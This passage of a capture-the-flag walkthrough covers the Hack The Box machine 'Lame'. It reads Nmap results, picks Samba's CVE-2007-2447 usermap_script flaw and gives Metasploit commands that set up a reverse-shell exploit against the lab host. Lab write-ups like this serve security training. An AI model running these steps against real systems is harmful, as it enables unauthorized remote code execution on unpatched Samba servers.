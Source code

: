# 445/tcp open  microsoft-ds Samba smbd 3.X - 4.X (Workgroup: WORKGROUP)
# Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

FTP (21/tcp): Running vsftpd 2.3.4. This version is known to be vulnerable to a backdoor command execution (CVE-2011-2523). While a significant vulnerability, it's typically not the intended path for Lame. My attempt at anonymous login was denied.

SSH (22/tcp): Running OpenSSH 4.7p1 Debian 8ubuntu1. An older version, but not immediately exploitable without credentials.

NetBIOS/SMB (139/tcp, 445/tcp): Running Samba smbd 3.X - 4.X. This immediately raised a red flag. Older Samba versions are frequently vulnerable, making this the most promising lead.

Phase 2: Vulnerability Identification - Pinpointing the Exploit
Given the broad 3.X - 4.X version range reported by Nmap for Samba, I focused my research on well-known, simple vulnerabilities affecting older Samba versions, especially those common on "Easy" Hack The Box machines.

The key vulnerability identified was:

CVE-2007-2447: Samba usermap_script Remote Code Execution

Affected Versions: This vulnerability affects Samba versions from 3.0.20 through 3.0.25rc3.

Mechanism: It allows unauthenticated remote attackers to execute arbitrary commands by injecting shell metacharacters into the username field during an authentication attempt. This occurs if the username map script option is enabled in smb.conf on the server.

(Self-Correction Note: While Nmap reported a broad range, common "Easy" boxes often target specific versions within that range. A more precise nmap -sV on just the SMB ports, or using smbclient -V, could often pinpoint the exact 3.0.20 version, confirming this specific exploit's applicability.)

Phase 3: Exploitation - Gaining Root Access with Metasploit
Given the well-known nature of CVE-2007-2447 and its presence on an Easy-rated machine, the Metasploit Framework was the ideal tool for exploitation.

Leveraging Metasploit Framework:
Start Metasploit Console:

msfconsole

Search for the Exploit:

search CVE-2007-2447
# or
search usermap_script

The relevant module identified was exploit/multi/samba/usermap_script.

Select and Configure the Exploit Module:

use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3  # Set the target machine's IP
set LHOST 10.10.14.X   # Set your Kali/attacking machine's VPN IP (e.g., your tun0 interface IP)
set LPORT 4444         # The default listener port for the reverse shell, usually fine
